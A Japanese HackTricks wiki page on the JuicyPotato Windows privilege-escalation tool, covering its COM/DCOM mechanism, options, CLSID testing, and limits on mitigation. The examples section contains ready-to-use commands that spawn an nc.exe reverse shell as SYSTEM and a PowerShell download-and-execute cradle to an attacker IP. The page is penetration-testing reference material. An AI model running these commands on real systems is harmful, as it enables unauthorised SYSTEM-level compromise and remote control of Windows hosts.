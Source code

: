 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotatoは** Windows Server 2019 および Windows 10 ビルド 1809 以降では動作しません。しかし、[**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**、** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**、** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) を使用して **同じ特権を利用し、`NT AUTHORITY\SYSTEM`** レベルのアクセスを取得できます。 _**確認してください:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (ゴールデン特権の悪用) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_少しのジュースを加えた_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG) _の甘いバージョン、つまり **Windows サービスアカウントから NT AUTHORITY\SYSTEM への別のローカル特権昇格ツール**_

#### juicypotatoは[https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)からダウンロードできます

### 概要 <a href="#summary" id="summary"></a>

[**juicy-potatoのReadmeから**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) とその [バリアント](https://github.com/decoder-it/lonelypotato) は、[`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [サービス](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) に基づく特権昇格チェーンを利用し、`127.0.0.1:6666` で MiTM リスナーを持ち、`SeImpersonate` または `SeAssignPrimaryToken` 特権を持っている場合に機能します。Windows ビルドレビュー中に、`BITS` が意図的に無効にされ、ポート `6666` が使用されている設定を見つけました。

私たちは [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) を武器化することに決めました: **Juicy Potato にこんにちはを言いましょう**。

> 理論については、[Rotten Potato - サービスアカウントから SYSTEM への特権昇格](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) を参照し、リンクと参考文献のチェーンをたどってください。

私たちは、`BITS` 以外にも悪用できるいくつかの COM サーバーがあることを発見しました。これらは次の条件を満たす必要があります：

1. 現在のユーザーによってインスタンス化可能であること、通常は偽装特権を持つ「サービスユーザー」
2. `IMarshal` インターフェースを実装していること
3. 高い権限のユーザー（SYSTEM、Administrator など）として実行されること

いくつかのテストの後、私たちは複数の Windows バージョンでの [興味深い CLSID のリスト](http://ohpe.it/juicy-potato/CLSID/) を取得し、テストしました。

### ジューシーな詳細 <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato を使用すると、次のことができます：

* **ターゲット CLSID** _任意の CLSID を選択できます。_ [_こちら_](http://ohpe.it/juicy-potato/CLSID/) _で OS ごとに整理されたリストを見つけることができます。_
* **COM リスニングポート** _好みの COM リスニングポートを定義します（ハードコーディングされた 6666 の代わりに）_
* **COM リスニング IP アドレス** _任意の IP にサーバーをバインドします_
* **プロセス作成モード** _偽装されたユーザーの特権に応じて、次のいずれかを選択できます：_
* `CreateProcessWithToken`（`SeImpersonate` が必要）
* `CreateProcessAsUser`（`SeAssignPrimaryToken` が必要）
* `両方`
* **起動するプロセス** _エクスプロイトが成功した場合に実行する実行可能ファイルまたはスクリプト_
* **プロセス引数** _起動するプロセスの引数をカスタマイズします_
* **RPC サーバーアドレス** _ステルスアプローチのために、外部 RPC サーバーに認証できます_
* **RPC サーバーポート** _外部サーバーに認証したい場合に便利で、ファイアウォールがポート `135` をブロックしている場合…_
* **テストモード** _主にテスト目的、つまり CLSID のテスト。DCOM を作成し、トークンのユーザーを表示します。_ [_テスト用はこちら_](http://ohpe.it/juicy-potato/Test/)

### 使用法 <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 最後の考え <a href="#final-thoughts" id="final-thoughts"></a>

[**juicy-potatoのReadmeから**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

ユーザーが `SeImpersonate` または `SeAssignPrimaryToken` 権限を持っている場合、あなたは **SYSTEM** です。

これらのCOMサーバーの悪用を防ぐことはほぼ不可能です。これらのオブジェクトの権限を `DCOMCNFG` を介して変更することを考えるかもしれませんが、うまくいくことは難しいでしょう。

実際の解決策は、`* SERVICE` アカウントの下で実行される敏感なアカウントとアプリケーションを保護することです。`DCOM` を停止することは確かにこのエクスプロイトを抑制しますが、基盤となるOSに深刻な影響を与える可能性があります。

出典: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 例

注意: 試すためのCLSIDのリストは[こちらのページ](https://ohpe.it/juicy-potato/CLSID/)を訪れてください。

### nc.exeリバースシェルを取得する
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 新しいCMDを起動する（RDPアクセスがある場合）

![](<../../.gitbook/assets/image (300).png>)

## CLSIDの問題

多くの場合、JuicyPotatoが使用するデフォルトのCLSIDは**機能しない**ため、エクスプロイトが失敗します。通常、**動作するCLSID**を見つけるには複数の試行が必要です。特定のオペレーティングシステムで試すためのCLSIDのリストを取得するには、このページを訪問してください：

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSIDの確認**

まず、juicypotato.exe以外のいくつかの実行可能ファイルが必要です。

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)をダウンロードしてPSセッションにロードし、[GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)をダウンロードして実行します。そのスクリプトは、テストする可能性のあるCLSIDのリストを作成します。

次に、[test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)をダウンロードし（CLSIDリストとjuicypotato実行可能ファイルへのパスを変更）、実行します。これにより、すべてのCLSIDを試し始め、**ポート番号が変更されると、CLSIDが機能したことを意味します**。

**-cパラメータを使用して**動作するCLSIDを**確認してください**

## 参考文献

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
